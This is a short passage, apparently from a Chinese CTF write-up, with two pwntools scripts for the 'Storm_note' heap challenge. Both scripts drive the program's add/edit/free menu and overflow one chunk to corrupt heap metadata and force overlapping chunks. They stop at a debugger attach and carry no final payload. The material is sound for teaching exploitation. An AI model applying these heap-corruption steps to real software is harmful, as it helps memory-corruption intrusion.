 这里给出两个两个有趣的例子,有兴趣的师傅可以自己去玩玩看.有个奇怪的点是我自己编译的libc居然可以没有检查报错...没有深究...但是这个的确让我定位错误花了更多的时间😭

[binary][3]
### 1.py
```python
from pwn import *
def cmd(c):
	p.sendlineafter(": ",str(c))
def add(size):
	cmd(1)
	p.sendlineafter(" ?\n",str(size))
def free(idx):
	cmd(3)
	p.sendlineafter(" ?\n",str(idx))
def edit(idx,c):
	cmd(2)
	p.sendlineafter(" ?\n",str(idx))
	p.sendlineafter(": \n",str(c))
p=process("./Storm_note")
context.log_level='debug'
add(0x18)#0
add(0x400-0x20)#1
add(0x88)#2
add(0x18)#3
free(0)
free(1)
add(0x18)#0
edit(0,"A"*0x18)
gdb.attach(p)
add(0x88)#1
add(0x88)#4
free(1)
free(2)
p.interactive()
```
### 2.py
```python
from pwn import *
def cmd(c):
	p.sendlineafter(": ",str(c))
def add(size):
	cmd(1)
	p.sendlineafter(" ?\n",str(size))
def free(idx):
	cmd(3)
	p.sendlineafter(" ?\n",str(idx))
def edit(idx,c):
	cmd(2)
	p.sendlineafter(" ?\n",str(idx))
	p.sendlineafter(": \n",str(c))
p=process("./Storm_note")
context.log_level='debug'
add(0x18)#0
add(0x400-0x20)#1
add(0x88)#2
add(0x18)#3
free(1)
edit(0,"A"*0x18)
gdb.attach(p)
add(0x88)#1
add(0x88)#4
free(1)
free(2)
```